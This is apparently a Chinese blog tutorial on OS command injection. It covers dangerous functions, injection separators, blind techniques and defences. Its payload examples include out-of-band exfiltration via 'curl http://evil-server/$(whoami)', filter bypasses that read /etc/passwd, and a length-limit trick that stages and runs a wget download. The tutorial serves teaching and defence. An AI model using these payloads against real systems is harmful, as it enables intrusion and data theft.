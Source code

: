 ```yaml
---
layout: post
title:  web 安全系列-09-command injection 命令注入
date:  2020-08-09 10:37:20 +0800
categories: [web]
tags: [web, web-safe, sf]
published: true
---
```


# 命令注入是什么？

命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞。

该类漏洞通常出现在调用外部程序完成一些功能的情景下。

比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。

# 常见危险函数

## PHP

- system

- exec

- passthru

- shell_exec

- popen

- proc_open

## Python

- system

- popen

- subprocess.call

- spawn


## Java

```java
java.lang.Runtime.getRuntime().exec(command)
```

# 常见注入方式

分号分割

`|| && &` 分割

`|` 管道符

`\r\n %d0%a0` 换行

反引号解析

`$()` 替换

# 无回显技巧

bash反弹shell

DNS带外数据

http带外

```
curl http://evil-server/$(whoami)
wget http://evil-server/$(whoami)
```

无带外时利用 sleep 或其他逻辑构造布尔条件

# 常见绕过方式

## 空格绕过

`<` 符号 `cat<123`

`\t / %09`

`${IFS}` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。

另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

## 黑名单绕过

```
a=l;b=s;$a$b
base64 echo "bHM=" | base64 -d
/?in/?s => /bin/ls
连接符 cat /etc/pass'w'd
未定义的初始化变量 cat$x /etc/passwd
```

## 长度限制绕过

```
>wget\
>foo.\
>com
ls -t>a
sh a
```

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令。

这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看) 如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向 而在php中 , 使用 shell_exec 等执行系统命令的函数的时候, 是不存在标准输入流的，所以可以直接创建文件

# 防御

1. 不使用时禁用相应函数

2. 尽量不要执行外部的应用程序或命令

3. 做输入的格式检查

4. 转义命令中的所有shell元字符

shell元字符包括 ```#&;`,|*?~<>^()[]{}$\```

# 拓展阅读 

[web 安全系列](https://houbb.github.io/2020/08/09/web-safe-00-overview)

# 参考资料

[命令注入](https://websec.readthedocs.io/zh/latest/vuln/cmdinjection.html#)

[巧用命令注入的N种方式](https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/)

[命令注入漏洞](https://wintrysec.github.io/2020/02/28/Web%E5%AE%89%E5%85%A8-%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/)

[Web 安全漏洞之 OS 命令注入](https://zhuanlan.zhihu.com/p/48536948)

* any list
{:toc}
